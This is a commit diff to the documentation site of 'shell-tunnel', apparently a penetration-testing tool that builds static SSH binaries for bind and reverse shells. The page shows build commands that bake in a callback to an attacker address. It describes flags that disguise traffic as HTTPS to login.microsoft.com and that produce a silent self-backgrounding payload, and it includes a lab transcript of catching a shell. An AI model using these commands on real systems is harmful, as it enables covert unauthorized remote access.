

Before and after one commit to Real-Fruit-Snacks/Undertow, a plain HTML site: page docs/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Polish Cyclorama Dawn v2.1.0 brand, docs, covers, and repo hygiene

```diff
--- a/docs/index.html
+++ b/docs/index.html
@@ -3,11 +3,11 @@
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>shell-tunnel: static SSH server for bind and reverse shells with PTY and SFTP</title>
-<meta name="description" content="Static SSH server for bind and reverse shells with PTY and SFTP">
+<title>shell-tunnel: static SSH server for bind and reverse shells, PTY and SFTP</title>
+<meta name="description" content="Static SSH server for bind and reverse shells, PTY and SFTP">
 <link rel="canonical" href="https://real-fruit-snacks.github.io/shell-tunnel/">
 <meta property="og:title" content="shell-tunnel">
-<meta property="og:description" content="Static SSH server for bind and reverse shells with PTY and SFTP">
+<meta property="og:description" content="Static SSH server for bind and reverse shells, PTY and SFTP">
 <meta property="og:type" content="website">
 <meta property="og:url" content="https://real-fruit-snacks.github.io/shell-tunnel/">
 <meta property="og:image" content="https://real-fruit-snacks.github.io/shell-tunnel/assets/cover-dark.png">
@@ -44,7 +44,7 @@
     <div class="wrap top-inner">
         <a class="brand" href="https://real-fruit-snacks.github.io/">
             <img class="brand-tile" src="icon.svg" alt="" width="28" height="28">
-            <span class="brand-text">SHELL_TUNNEL</span>
+            <span class="brand-text">SHELL-TUNNEL</span>
         </a>
         <nav class="top-nav" aria-label="Links">
             <a href="#what">What's in it</a>
@@ -67,10 +67,10 @@
     <div class="hero">
         <div>
             <h1 class="title" id="top-h">shell-tunnel</h1>
-            <p class="lead">Static SSH server for bind and reverse shells with PTY and SFTP</p>
+            <p class="lead">Static SSH server for bind and reverse shells, PTY and SFTP</p>
             <p class="sub">I wanted a tiny way to get a good reverse shell and a pivot without juggling listeners and tunnel syntax by hand. shell-tunnel is that errand as one static binary: credentials and connection details are baked in at build time, the target runs it, and a plain <code>ssh</code> client gets a full PTY, SFTP file transfer and all three kinds of port forwarding. Optional TLS wrapping hides the SSH banner inside what looks like HTTPS. It assumes you have written authorization for the target. shell-tunnel is the preservation fork of Ferdinor's undertow (2021), whose upstream repository is no longer public — same GPLv3, modernized and maintained. For authorized security testing only.</p>
             <ol class="ck steps" id="errand-ck" aria-label="The errand, start to finish">
-                <li id="build" data-state="todo"><span class="box" aria-hidden="true"></span><span class="ch">Build</span><span class="ld" aria-hidden="true"></span><span class="rs">Tuned binary</span>
+                <li id="build" data-step="1" data-state="done"><span class="box" aria-hidden="true"></span><span class="ch">Build</span><span class="ld" aria-hidden="true"></span><span class="rs">Tuned binary</span>
                     <div class="act"><div class="cmd"><code>./build.sh reverse 10.10.14.5:4444</code><button class="copy" type="button" data-copy="./build.sh reverse 10.10.14.5:4444">Copy</button></div>
                     <div class="cmd"><code>./build.sh listen 8888</code><button class="copy" type="button" data-copy="./build.sh listen 8888">Copy</button></div></div>
                     <p class="why">Needs Go and Make on the build box. The script cross-compiles Linux and Windows binaries with a fresh random password baked in, and writes a handler script for reverse mode. <code>--tls --sni login.microsoft.com</code> wraps the traffic, <code>--nocli --daemonize</code> bakes a silent self-backgrounding payload.</p></li>
@@ -85,27 +85,27 @@
         <figure class="display" aria-labelledby="session-cap">
             <div class="screenbox">
                 <p class="bar" aria-hidden="true"><b>A lab run</b><span>zsh · kali</span></p>
-<pre class="screen" id="screen" tabindex="0" aria-label="An shell-tunnel run: build a tuned binary, start the handler, catch the callback, ssh in"><code><span class="ln"><span class="p">$</span> <span class="t">./build.sh reverse 10.10.14.5:4444</span></span>
+<pre class="screen" id="screen" tabindex="0" aria-label="A shell-tunnel run: build a tuned binary, start the handler, catch the callback, ssh in"><code><span class="ln"><span class="p">$</span> <span class="t">./build.sh reverse 10.10.14.5:4444</span></span>
 <span class="ln o">[i] Mode:     reverse</span>
 <span class="ln o">[i] Target:   svc@10.10.14.5:4444</span>
 <span class="ln o">[i] BindPort: random (allocated by SSH server)</span>
-<span class="ln" data-step="2"><span class="s">[ok]</span> Build completed!</span>
+<span class="ln" data-step="1"><span class="s">[ok]</span> Build completed!</span>
 <span class="ln a">[!] Password: 9f2c71aa4b03d1e2</span>
 
 <span class="ln"><span class="p">$</span> <span class="t">./bin/handler-10-10-14-5-4444</span></span>
 <span class="ln o">[i] Listening on port:  4444</span>
 <span class="ln o">[i] Expecting callback: 10.10.14.5</span>
-<span class="ln" data-step="3"><span class="s">[ok]</span> listening on 0.0.0.0:4444</span>
-<span class="ln o">··· shell-tunnel.exe runs on the target ···</span>
-<span class="ln" data-step="4"><span class="s">[ok]</span> Session 1: svc on web01 (from 10.10.11.23), reachable via 127.0.0.1:4444</span>
+<span class="ln" data-step="2"><span class="s">[ok]</span> listening on 0.0.0.0:4444</span>
+<span class="ln o" data-step="3">··· shell-tunnel.exe runs on the target ···</span>
+<span class="ln" data-step="4"><span class="s">[ok]</span> Session 1: svc on web01 (from 10.10.11.23), reachable via 127.0.0.1:41827</span>
 <span class="ln o">[i] 1. Create the master socket (run once):</span>
-<span class="ln o">ssh -fNM -S /tmp/shell-tunnel-4444.sock -p 4444 svc@127.0.0.1 -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=10 -o ExitOnForwardFailure=yes</span>
+<span class="ln o">ssh -fNM -S /tmp/shell-tunnel-41827.sock -p 41827 svc@127.0.0.1 -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=10 -o ExitOnForwardFailure=yes</span>
 
 <span class="ln o">[i] 2. Connect through that socket:</span>
-<span class="ln o">ssh -S /tmp/shell-tunnel-4444.sock -p 4444 svc@127.0.0.1</span>
+<span class="ln o">ssh -S /tmp/shell-tunnel-41827.sock -p 41827 svc@127.0.0.1</span>
 
-<span class="ln"><span class="p">$</span> <span class="t">ssh -fNM -S /tmp/shell-tunnel-4444.sock -p 4444 svc@127.0.0.1 -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=10 -o ExitOnForwardFailure=yes</span></span>
-<span class="ln"><span class="p">$</span> <span class="t">ssh -S /tmp/shell-tunnel-4444.sock -p 4444 svc@127.0.0.1</span></span>
+<span class="ln"><span class="p">$</span> <span class="t">ssh -fNM -S /tmp/shell-tunnel-41827.sock -p 41827 svc@127.0.0.1 -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=10 -o ExitOnForwardFailure=yes</span></span>
+<span class="ln"><span class="p">$</span> <span class="t">ssh -S /tmp/shell-tunnel-41827.sock -p 41827 svc@127.0.0.1</span></span>
 <span class="ln o">svc@127.0.0.1's password:</span>
 <span class="ln" data-step="5"><span class="q">svc@web01:~$</span> <span class="t">id</span></span>
 <span class="ln o">uid=1000(svc) gid=1000(svc) groups=1000(svc),27(sudo)</span>
@@ -143,7 +143,7 @@
 
 <section class="card ref" id="what" aria-labelledby="what-h">
     <h2 id="what-h">What's in it</h2>
-    <p class="intro">One binary covers both directions. Every status line starts with a bracketed tag — <code>[ok]</code>, <code>[!]</code>, <code>[x]</code>, <code>[i]</code> — so output stays meaningful piped or with <code>NO_COLOR</code> set.</p>
+    <p class="intro">One binary covers both directions. Every status line starts with a bracketed tag — <code>[ok]</code>, <code>[!]</code>, <code>[x]</code>, <code>[i]</code> — so output stays meaningful piped or with <code>NO_COLOR</code> set. See the <a href="https://github.com/Real-Fruit-Snacks/shell-tunnel/blob/main/docs/USAGE.md">usage and build guide</a> for all flags and ldflags options.</p>
     <div class="cols">
         <ul class="ck spec">
             <li><span class="ch">Reverse shells</span><span class="ld" aria-hidden="true"></span><span class="rs"><code>reverse</code></span>
@@ -201,8 +201,8 @@
 </main>
 
 <footer class="wrap foot">
-    <p>GPLv3 — fork of Ferdinor's shell-tunnel (2021). For authorized security testing with explicit written permission only.</p>
-    <p><a href="https://github.com/Real-Fruit-Snacks/shell-tunnel">Source</a> · <a href="https://github.com/Real-Fruit-Snacks/shell-tunnel/blob/main/CHANGELOG.md">Changelog</a> · <a href="https://github.com/Real-Fruit-Snacks/shell-tunnel/blob/main/SECURITY.md">Security</a> · <a href="https://real-fruit-snacks.github.io/">RFS</a></p>
+    <p>GPLv3 — fork of Ferdinor's undertow (2021). For authorized security testing with explicit written permission only.</p>
+    <p><a href="https://github.com/Real-Fruit-Snacks/shell-tunnel">Source</a> · <a href="https://github.com/Real-Fruit-Snacks/shell-tunnel/blob/main/docs/USAGE.md">Usage</a> · <a href="https://github.com/Real-Fruit-Snacks/shell-tunnel/blob/main/CHANGELOG.md">Changelog</a> · <a href="https://github.com/Real-Fruit-Snacks/shell-tunnel/blob/main/SECURITY.md">Security</a> · <a href="https://real-fruit-snacks.github.io/">RFS</a></p>
 </footer>
 </div>
 
--- a/docs/script.js
+++ b/docs/script.js
@@ -63,12 +63,15 @@ var Handbook = (function () {
             if (!document.startViewTransition || still.matches) return commit();
             var r = toggle.getBoundingClientRect(), x = r.left + r.width / 2, y = r.top + r.height / 2;
             var end = Math.hypot(Math.max(x, innerWidth - x), Math.max(y, innerHeight - y));
-            document.startViewTransition(commit).ready.then(function () {
+            var transition = document.startViewTransition(commit);
+            var animated = transition.ready.then(function () {
                 root.animate(
                     { clipPath: ['circle(0px at ' + x + 'px ' + y + 'px)', 'circle(' + end + 'px at ' + x + 'px ' + y + 'px)'] },
                     { duration: 520, easing: 'cubic-bezier(.22, .61, .36, 1)', pseudoElement: '::view-transition-new(root)' }
                 );
             });
+            // Hidden tabs and rapid toggles can abort any public transition promise.
+            Promise.allSettled([animated, transition.updateCallbackDone, transition.finished]);
         });
     }
     window.addEventListener('storage', function (ev) {
--- a/docs/styles.css
+++ b/docs/styles.css
@@ -424,5 +424,11 @@ p { margin: 0 0 1rem; text-wrap: pretty; }
 
 /* ---------- this page: shell-tunnel ---------- */
 .is-tunnel { --tab: var(--rfs-steel-ink); }
+.is-tunnel .theme-btn,
+.is-tunnel .replay,
+.is-tunnel .top-nav a,
+.is-tunnel .foot a { min-height: 44px; }
+.is-tunnel .top-nav a { display: inline-flex; align-items: center; }
+.is-tunnel .ck li[data-state="live"] .why code { color: var(--ink); }
 .screen .i { color: #74B8E8; }
 .screen .a { color: #FFC247; }
```
Also changed, not shown: docs/assets/cover-dark.png, docs/assets/cover-dark.svg, docs/assets/cover-light.png, docs/assets/cover-light.svg, docs/assets/social-dark.png, docs/assets/social-light.png, docs/manifest.webmanifest, docs/rfs-icons.svg (added), 7 other files.
